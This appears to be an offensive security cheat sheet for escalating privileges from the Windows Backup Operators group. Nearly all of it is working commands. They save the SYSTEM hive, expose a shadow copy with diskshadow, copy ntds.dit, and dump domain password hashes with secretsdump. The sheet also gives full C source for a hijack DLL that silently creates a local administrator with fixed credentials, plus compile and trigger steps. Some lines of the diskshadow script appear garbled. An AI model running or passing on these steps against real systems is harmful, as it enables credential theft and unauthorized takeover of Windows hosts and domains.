 # diskshadow/robocopy

1. Grab SYSTEM
```bash
reg save HKLM\SYSTEM C:\TEMP\Documents\SYSTEM
```

2. Create shadowcopy.txt
```bash
→ cat shadowscript.txt
set metadata C:\Windows\System32\spool\drivers\color\sss.cabs
set context clientaccessibles
set context persistents
begin backups
add volume c: alias coldfx#
creates
expose %coldfx% z:#
```

3. execute the script with diskshadow
```bash
diskshadow /s shadowscript.txt
```

4. copy
```bash
cd C:\TEMP
robocopy /B z:\Windows\ntds .\new_ntds ntds.dit
```

5. secretsdump(on Kali linux)
```bash
impacket-secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

# diskshadow/Copy-FileSeBackupPrivilege
1,2,3,5 same as above method
4. An alternate way to copy files from the shadow drive Z:\ is by uploading SeBackupPrivilegeUtils.dll and SeBackupPrivilegeCmdLets.dll from SeBackupPrivilege repo and importing them to our session: https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug

```bash
> Import-Module .\SeBackupPrivilegeUtils.dll
> Import-Module .\SeBackupPrivilegeCmdLets.dll
> Copy-FileSeBackupPrivilege Z:\Windows\NTDS\ntds.dit C:\TEMP\ntds.dit
```

# DLL Hijack
Since the user is an member of Backup Operator Group, the user is allowed to write files anywhere on the system.
For DLL hijacking, the malicious windowscoredeviceinfo.dll(create a new user with credentials coldfusion:c0!dfusion and add it to local administrators group) will be created by using the following code:

1. Create dll
```bash
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

int pwn()
{
        WinExec("C:\\Windows\\System32\\net.exe users coldfusion c0!dfusion /add", 0);
        WinExec("C:\\Windows\\System32\\net.exe localgroup administrators coldfusion /add", 0);
        return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
        DWORD  ul_reason_for_call,
        LPVOID lpReserved
)
{
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
                pwn();
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
                break;
        }
        return TRUE;
}
```

2. Compiling the dll on Kali linux:
```bash
# for x64 arch
x86_64-w64-mingw32-gcc dllhijack.c -shared -o windowscoredeviceinfo.dll
# for x86 arch
i686-w64-mingw32-gcc dllhijack.c -shared -o windowscoredeviceinfo.dll
```

3. UsoDllLoader.exe can be downloaded from here: https://github.com/itm4n/UsoDllLoader/releases/tag/1.0-20190824

4. copy windowscoredeviceinfo.dll from C:\temp\ to c:\windows\system32
```bash
robocopy /b dll c:\windows\system32 windowscoredeviceinfo.dll
```

5. Trigger dll
```bash
.\UsoDllLoader.exe
```

6. We can see new user coldfusion has been created with local administrator privileges
